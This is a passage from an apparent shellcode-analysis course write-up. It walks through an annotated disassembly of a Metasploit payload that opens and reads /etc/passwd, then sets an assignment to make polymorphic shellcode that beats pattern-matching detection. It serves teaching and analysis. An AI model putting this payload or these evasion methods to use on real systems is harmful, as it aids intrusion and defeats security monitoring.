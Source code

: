 ```
0000000A  CD80              int 0x80
;cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep 5 
;#define __NR_open                5
; open("/etc/passwd", O_RDONLY)           = 3

; the following is syscall read 
0000000C  89C3              mov ebx,eax ; store the resulting fd in ebx 
0000000E  B803000000        mov eax,0x3 ; syscall read 
; #define __NR_read               3
00000013  89E7              mov edi,esp ; stack address to edi 
00000015  89F9              mov ecx,edi ; destination of the read is the stack :] 
00000017  BA00100000        mov edx,0x1000 ; size to 4096 
0000001C  CD80              int 0x80 ; syscall 

; the following is syscall write
; function is ssize_t write(int fd, const void *buf, size_t count); 
0000001E  89C2              mov edx,eax ; result is inside edx, edx is the size  
00000020  B804000000        mov eax,0x4 ; syscal write 
00000025  BB01000000        mov ebx,0x1 ; output to stdout = 1, ebx is fd  
; for info ecx still points to the string read and is argument 2, ecx is the buffer 
0000002A  CD80              int 0x80 ; syscall 

; syscall exit , clean exit 
0000002C  B801000000        mov eax,0x1
00000031  BB00000000        mov ebx,0x0
00000036  CD80              int 0x80

; jump here 
00000038  E8C5FFFFFF        call dword 0x2 ; call 0x2, and push the return address onto the stack 

; so the following bytes are probably a string, and not random opcodes

0000003D  2F                das [...] ; wrong disass
; surprise surprise :] lets check string 
hd -s 0x3d msfread.raw 
0000003d  2f 65 74 63 2f 70 61 73  73 77 64 00              |/etc/passwd.|
; this is the path we want to open 
```

I hope you've enjoyed learning about malware analysis!







# Assignment 6
# Shellstorm Polymorphism Requirements

- Take 3 shellcodes from Shell-Storm and create polymorphic versions of them to beat pattern matching
- The polymorphic versions cannot be larger than 150% of the existing shellcode
- Bonus points for making it shorter in length than original
